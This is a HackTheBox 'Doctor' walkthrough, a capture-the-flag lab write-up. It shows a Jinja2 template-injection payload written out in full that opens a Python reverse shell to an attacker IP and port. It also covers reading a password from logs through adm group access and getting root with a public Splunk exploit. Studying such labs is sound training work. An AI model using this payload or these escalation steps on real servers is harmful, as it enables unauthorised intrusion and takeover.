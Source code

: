 ```yaml
---
published: true
---
```

# HackTheBox Doctor 10.10.10.209

## Getting user.txt

Full nmap scan results (TCP):

![](../images/2021-02-02_12-47.png)

On the website on port 80, I found an email address, info@doctors.htb. I added the hostname to my /etc/hosts file.

After adding the site to my hosts file, and getting pissed off at Chrome browser which refused to show the site and kept sending me to a Verizon search page, I opened it in Firefox and found I was referred to the following site:

![](images/2021-02-02_12-55.png)

I checked for SQL injection in the login form and didn't find any, so I clicked the link to "Sign Up Now".

The messages reflected whatever you put into the title and content field back to the page. I tested for XSS and SSTI (Server Side Template Injection), but didn't find anything right away. For now I'm going to run FFUF to find new directories, and maybe come back to testing the messaging form later.

FFUF found an additional directory, /archive but it was a blank page.

I entered another message as seen below:

![](images/2021-02-02_13-21.png)

After entering the SSTI payloads in the above message, I went back to the /archive URL and found the following in the page source:

![](images/2021-02-02_13-23.png)

It looks like we have template injection, either Jinja2 or Twig. The Tplmap tool won't work here since the detection is on a different URL from the injection point. I had some recent experience playing around with SSTI on pentesterlab.com. After some manual trial and error, I finally got a reverse shell using the following payload:

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.19\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

![](images/2021-02-02_13-39.png)

Did you notice that the current user, web, is a member of the 'adm' group? Members of the adm group can usually view files in /var/log. I found a password in /var/log/apache2/backup file:

![](images/2021-02-02_14-02.png)

I already know there is a user named 'shaun' by looking at the /home directory. I got the user.txt flag by su shaun and using the password found in the backup file:

![](images/2021-02-02_14-04.png)

I then upgraded my shell using the following:

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

After looking for the obvious, includeing 'sudo -l' to see if I can use sudo, I decided to circle back to Splunk which was found earlier running on port 8089.

After doing some searching, I find the following exploit: https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2

Run the exploit:

![](images/2021-02-02_14-56.png)

Catch a root shell:

![](images/2021-02-02_14-57.png)
